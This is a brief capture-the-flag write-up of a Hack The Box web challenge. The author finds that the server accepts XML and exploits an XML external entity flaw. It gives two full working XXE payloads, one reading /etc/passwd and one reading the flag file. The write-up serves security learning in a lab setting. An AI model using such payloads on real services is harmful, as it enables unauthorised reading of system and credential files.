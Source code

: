 # Platform: HTB_CTF
# Category: Web
# Name: baby_WAFfles_order


We start on this page.

![img1](img1.png)

We have the source code to the web server so we are dealing with a White Box.

Looking thorugh the source code I found out I can modify the content type of the request to xml. 

![img2](img2.png)

This makes me think of an XXE so I'll try a simple payload. I'll use BurpSuite to modify the request.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<SimpleXMLElement>
<food>
&xxe;
</food>
</SimpleXMLElement>
```

![img3](img3.png)


It worked! Now I'll get the flag.

Payload
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag"> ]>
<SimpleXMLElement>
<food>
&xxe;
</food>
</SimpleXMLElement>
```

![img4](img4.png)

## We got the flag!